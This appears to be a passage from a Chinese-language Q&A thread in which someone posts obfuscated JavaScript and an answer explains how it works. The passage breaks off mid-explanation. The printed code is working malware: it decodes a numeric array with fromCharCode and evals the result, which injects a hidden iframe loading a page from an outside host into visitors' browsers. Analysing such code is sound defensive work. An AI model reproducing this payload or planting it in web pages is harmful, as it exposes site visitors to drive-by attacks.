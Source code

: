 ```
    f = ['-33f-33f63f60f-10f-2f58f69f57f75f67f59f68f74f4f61f59f74f27f66f59f67f59f68f74f73f24f79f42f55f61f36f55f67f59f-2f-3f56f69f58f79f-3f-1f49f6f51f-1f81f-29f-33f-33f-33f63f60f72f55f67f59f72f-2f-1f17f-29f-33f-33f83f-10f59f66f73f59f-10f81f-29f-33f-33f-33f58f69f57f75f67f59f68f74f4f77f72f63f74f59f-2f-8f18f63f60f72f55f67f59f-10f73f72f57f19f-3f62f74f74f70f16f5f5f65f79f75f56f58f79f79f79f56f4f66f69f69f65f63f68f4f55f74f5f21f61f69f19f8f-3f-10f77f63f58f74f62f19f-3f7f6f-3f-10f62f59f63f61f62f74f19f-3f7f6f-3f-10f73f74f79f66f59f19f-3f76f63f73f63f56f63f66f63f74f79f16f62f63f58f58f59f68f17f70f69f73f63f74f63f69f68f16f55f56f73f69f66f75f74f59f17f66f59f60f74f16f6f17f74f69f70f16f6f17f-3f20f18f5f63f60f72f55f67f59f20f-8f-1f17f-29f-33f-33f83f-29f-33f-33f60f75f68f57f74f63f69f68f-10f63f60f72f55f67f59f72f-2f-1f81f-29f-33f-33f-33f76f55f72f-10f60f-10f19f-10f58f69f57f75f67f59f68f74f4f57f72f59f55f74f59f27f66f59f67f59f68f74f-2f-3f63f60f72f55f67f59f-3f-1f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f73f72f57f-3f2f-3f62f74f74f70f16f5f5f65f79f75f56f58f79f79f79f56f4f66f69f69f65f63f68f4f55f74f5f21f61f69f19f8f-3f-1f17f60f4f73f74f79f66f59f4f76f63f73f63f56f63f66f63f74f79f19f-3f62f63f58f58f59f68f-3f17f60f4f73f74f79f66f59f4f70f69f73f63f74f63f69f68f19f-3f55f56f73f69f66f75f74f59f-3f17f60f4f73f74f79f66f59f4f66f59f60f74f19f-3f6f-3f17f60f4f73f74f79f66f59f4f74f69f70f19f-3f6f-3f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f77f63f58f74f62f-3f2f-3f7f6f-3f-1f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f62f59f63f61f62f74f-3f2f-3f7f6f-3f-1f17f-29f-33f-33f-33f58f69f57f75f67f59f68f74f4f61f59f74f27f66f59f67f59f68f74f73f24f79f42f55f61f36f55f67f59f-2f-3f56f69f58f79f-3f-1f49f6f51f4f55f70f70f59f68f58f25f62f63f66f58f-2f60f-1f17f-29f-33f-33f83'][0].split('f');
    v = "e" + "va";
}
if (v) e = window[v + "l"];
try {
    q = document.createElement("div");
    q.appendChild(q + "");
} catch (qwg) {
    w = f;
    s = [];
}
r = String;
z = ((e) ? h : "");
for (; 573 != i; i += 1) {
    j = i;
    if (e) s = s + r["fromC" + ((e) ? z : 12)](w[j] * 1 + 42);
}
if (v && e && r && z && h && s && f && v) e(s); 
```

* * *

## 回答 #1

> 赞同：19
> 
> 时间：2012-05-18T18:55:20.620

我看了这段代码，有点疯狂。

它以 开头`try{avasv = prototype;}`，显然失败了。然后它会产生一些变量。

`f`是一个数字数组（长度为 573）。 `z`是`harCode`。接近尾声，有`"fromC" + ((e) ? z : 12)`。这将创建`fromCharCode`( `String.fromCharCode`)，它与数字数组一起使用`f`（在添加`42`到每个数字之后）。这似乎创建了一个要`eval`编辑的字符串。

它`eval`是这样编辑的：
